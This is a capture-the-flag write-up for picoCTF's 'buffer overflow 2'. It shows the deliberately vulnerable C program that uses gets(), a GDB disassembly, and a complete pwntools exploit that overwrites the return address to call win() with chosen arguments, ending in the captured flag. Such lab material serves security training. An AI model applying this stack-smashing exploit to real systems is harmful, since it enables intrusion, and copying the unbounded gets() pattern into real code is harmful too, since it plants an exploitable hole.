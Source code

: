 # buffer overflow 2
## Description
Control the return address and arguments  
This time you'll need to control the arguments to the function you return to! Can you get the flag from this [program](vuln)?  
You can view source [here](vuln.c). And connect with it using `nc saturn.picoctf.net 61046`
## Hints
1. Try using GDB to print out the stack once you write to it.
## Solution
1. Connect to the server and check out what's running.
```console
% nc saturn.picoctf.net 61046
Please enter your string: 
hello, world
hello, world
```
2. Ok, seems to echo your input. What does the source code look like?
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
3. Classic buffer overflow setup. We want to overflow `buf` to set the return address to `win`, but we need to also put `arg1` and `arg2` on the stack. That means we need to store `win`'s address, a return address, `arg1`, and `arg2`, in order. Let's look in GDB for the addresses.
```assembly
% gdb -q vuln
Reading symbols from vuln...
(No debugging symbols found in vuln)
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x08049338 <+0>:	 endbr32 
   0x0804933c <+4>:	 push   ebp
   0x0804933d <+5>:	 mov    ebp,esp
   0x0804933f <+7>:	 push   ebx
   0x08049340 <+8>:	 sub    esp,0x74
   0x08049343 <+11>: call   0x80491d0 <__x86.get_pc_thunk.bx>
   0x08049348 <+16>: add    ebx,0x2cb8
   0x0804934e <+22>: sub    esp,0xc
   0x08049351 <+25>: lea    eax,[ebp-0x6c]
   0x08049354 <+28>: push   eax
   0x08049355 <+29>: call   0x80490f0 <gets@plt>
   0x0804935a <+34>: add    esp,0x10
   0x0804935d <+37>: sub    esp,0xc
   0x08049360 <+40>: lea    eax,[ebp-0x6c]
   0x08049363 <+43>: push   eax
   0x08049364 <+44>: call   0x8049120 <puts@plt>
   0x08049369 <+49>: add    esp,0x10
   0x0804936c <+52>: nop
   0x0804936d <+53>: mov    ebx,DWORD PTR [ebp-0x4]
   0x08049370 <+56>: leave  
   0x08049371 <+57>: ret    
End of assembler dump.
(gdb) p win
$1 = {<text variable, no debug info>} 0x8049296 <win>
(gdb) disas main
Dump of assembler code for function main:
   ...
   0x080493cf <+93>:	push   eax
   0x080493d0 <+94>:	call   0x8049120 <puts@plt>
   0x080493d5 <+99>:	add    esp,0x10
   0x080493d8 <+102>:	call   0x8049338 <vuln>
   0x080493dd <+107>:	mov    eax,0x0
   ...
```
4. Ok, we need `0x6c (108)` bytes of garbage, plus `4` more for EBP. We know `win` is at `0x8049296` and we should return where `vuln` would return, `0x080493dd`. From the source, `arg1` is `0xcafef00d` and `arg2` is `0xf00df00d`.
```python
from pwn import *

context.log_level = 'debug'

junk = b'a' * 108 + b'b' * 4        # overflow buf and EBP
win_addr = p32(0x08049296)          # address of win()
main_addr = p32(0x080493dd)         # return address in main()
arg1 = p32(0xcafef00d)
arg2 = p32(0xf00df00d)
payload = junk + win_addr + main_addr + arg1 + arg2

server = remote("saturn.picoctf.net", 61046)
server.recvline()                   # we know it sends a '\n' terminated prompt
server.sendline(payload)
server.recvline()                   # we don't care about the echoed payload
flag = server.recvrepeat().decode()
server.close()

print(flag)
```
```console
% python exploit.py
[+] Opening connection to saturn.picoctf.net on port 61046: Done
[DEBUG] Received 0x1b bytes:
    b'Please enter your string: \n'
[DEBUG] Sent 0x81 bytes:
    00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    *
    00000060  61 61 61 61  61 61 61 61  61 61 61 61  62 62 62 62  │aaaa│aaaa│aaaa│bbbb│
    00000070  96 92 04 08  dd 93 04 08  0d f0 fe ca  0d f0 0d f0  │····│····│····│····│
    00000080  0a                                                  │·│
    00000081
[DEBUG] Received 0xa3 bytes:
    00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    *
    00000060  61 61 61 61  61 61 61 61  61 61 61 61  62 62 62 62  │aaaa│aaaa│aaaa│bbbb│
    00000070  96 92 04 08  dd 93 04 08  0d f0 fe ca  0d f0 0d f0  │····│····│····│····│
    00000080  0a 70 69 63  6f 43 54 46  7b 61 72 67  75 6d 33 6e  │·pic│oCTF│{arg│um3n│
    00000090  74 35 5f 34  5f 64 34 79  5a 5f 33 31  34 33 32 64  │t5_4│_d4y│Z_31│432d│
    000000a0  65 62 7d                                            │eb}│
    000000a3
[*] Closed connection to saturn.picoctf.net port 61046
picoCTF{argum3nt5_4_d4yZ_31432deb}
```
